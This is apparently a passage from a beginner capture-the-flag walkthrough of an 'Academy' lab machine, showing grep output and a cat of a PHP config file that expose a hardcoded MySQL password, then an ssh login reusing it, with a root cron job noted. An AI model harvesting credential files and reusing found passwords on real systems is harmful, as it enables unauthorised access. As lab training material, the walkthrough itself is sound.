 
```
* * * * * /home/grimmie/backup.sh

----------------------------------------------
/usr/share/phpmyadmin/config.inc.php:$cfg['Servers'][$i]['AllowNoPassword'] = false;                                                                                                                                                        
/usr/share/phpmyadmin/config.sample.inc.php:$cfg['Servers'][$i]['AllowNoPassword'] = false;
/usr/share/phpmyadmin/libraries/config.default.php:$cfg['Servers'][$i]['AllowNoPassword'] = false;
/usr/share/phpmyadmin/libraries/config.default.php:$cfg['ShowChgPassword'] = true;
/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
```
we found this `backup.sh` file also there is a `config` file  which has a password **keep it safe**  

```
cat /var/www/html/academy/includes/config.php


<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>

```
Okay now we have more info ! let's try to `ssh` to `grimmie@[ip]`
```

$ ssh grimmie@[targetip]
password: [password you found]
```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/cf3e34f84370b3d8784b64bc250d010a760648ca/Academy/images/ssh.png)
